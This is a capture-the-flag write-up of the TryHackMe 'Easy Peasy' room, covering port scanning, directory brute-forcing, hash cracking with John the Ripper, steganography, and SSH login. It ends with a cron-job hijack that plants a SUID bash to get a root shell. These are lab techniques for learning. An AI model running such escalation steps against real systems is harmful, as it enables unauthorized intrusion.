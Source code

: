 ```yaml
---
slug: easy-peasy
title: Easy Peasy
authors: [hueami]
tags: [tryhackme, ctf]
comments: true
---
```

Welcome to my first write-up for the CTF room [Easy Peasy on tryhackme](https://tryhackme.com/room/easypeasyctf). Let's dive into the fascinating world of Capture The Flag challenges!

### Task 1: Enumeration through nmap

<!-- truncate -->

1. Our first step is to understand the landscape we're dealing with. We'll start by enumerating all the ports using nmap.

```bash
$ sudo nmap [target IP] -p0-

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:33 CET
Nmap scan report for [target IP]
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
This fast enumeration over all ports gives us our first piece of the puzzle - the number of open ports.
Next, we perform a detailed scan over the open ports.

```bash
sudo nmap [target IP] -p080,6498,65524 -sV -A -T5

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:40 CET
Nmap scan report for [target IP]
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%) [...]
```
This information helps us to answer questions 2 and 3.

### Task 2: Compromising the machine 
With our enumeration complete, we move on to compromising the machine.

The room provides a task file that appears to be a wordlist. We’ll save this for later use.
We then proceed to scan subdirectories using feroxbuster, with the directory wordlist `SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt``.
```bash
$ feroxbuster -u http://[target IP] -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Feroxbuster uncovers a directory with another subdirectory. Both directories contain an image, but only the second subdirectory contains hidden information in the source code.

The string appears to be base64 encoded, so we decode it:

```bash
echo ZmxhZ3tmMXJz**********== | base64 -d
```
Decoded string is the flag asked for in question 1.

The two images do not seem to contain valuable information. I checked the EXIF information and tried to find some hidden messages with an [steganography tool](https://futureboy.us/stegano/decinput.html), but had no success. So, I continued to look at the Apache webserver running on port 65524.

The index.html served on port 65524 displayed a default Apache site. The flag for question 3 is hidden in the text.

The robots.txt file (nikto found it) shows me a strange string with the message that this agent may enter. Using it as a custom user agent does not work. I tried several online hash rainbow tables, e.g. [crackstation](https://crackstation.net/), [nitrxgen](https://www.nitrxgen.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [md5hashing](https://md5hashing.net). Search in all types of [md5hashing](https://md5hashing.net) finally finds the flag for question 2.

Looking at the sourcecode revealed a hidden message:
`<p hidden>its encoded with ba....:ObsJmP173N2X6d**********</p>`
I tried several baseX encodings with [cyberchef](https://gchq.github.io/CyberChef/) until I had a hit: `/n0th1ng**********` - looks like a directory and the answer to question 4.

There are two images in the subdirectory. The binary code shown is rubbish. The steganography tool is not able to find a message. In the page source in the subdirectory, I found the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e********`. I tried [crackstation](https://crackstation.net/) - no results. So I ran John the Ripper on the string with the previously saved wordlist `easypeasy.txt`:

```bash
$ echo 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e******** > easypeasy
$ john --wordlist=~/Downloads/easypeasy.txt ./easypeasy
```
John gets a result: `m*****************b`
This is the answer for question 5.

I try this password with the two images in the [steganography tool](https://futureboy.us/stegano/decinput.html) - the binary code image is a hit. I get a username `b****g` and a binary encoded password `i**************************y`. The password is the answer for question 6.

With a username and a password, I try to use them for the SSH service that Nmap found on port 6498. It works perfectly fine. The user flag is located in the user’s home as expected, but it looks wrong:

```bash
$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s********************}
```

This is a hint on the used encryption - the Caesar (or ROT) cipher. The first letter s should be an f for flag, I guessed. That meant I had to rotate by 13 characters - ROT13. Flag found and question 7 solved.

A message caught my attention:

```bash
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```
This suggested that there might be a cron job running that I could exploit to gain root access. To confirm this, I checked the crontab file:

```bash
$ cat /etc/crontab

[..]

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Indeed, there was a shell script named `.mysecretcronjob.sh` running every minute with root permissions. Checking the permissions of the file showed that the owner was the current user and they had permission to write to this file. This opened up a lot of options for exploitation. I decided to modify the script to make a copy of bash and set the SUID bit, so it would run with its owner’s (root) permissions.

```bash
echo 'cp /bin/bash /var/www/bash; chmod +s /var/www/bash' > /var/www/.mysecretcronjob.sh
```
A few moments later, the modified bash was available. Executing it with the argument `-p` ensured that it did not drop the root privilege, as it would normally do. With the root shell, I was now able to read the root flag:

```bash
$ cat /root/.root.txt
```
The flag looked like there would be a hash to crack again - but fortunately, the form for question 8 accepted it and I did not have to crack a hash again.

And that concludes our journey through this CTF challenge. I hope you found it insightful and engaging. Stay tuned for more adventures in the world of IT security!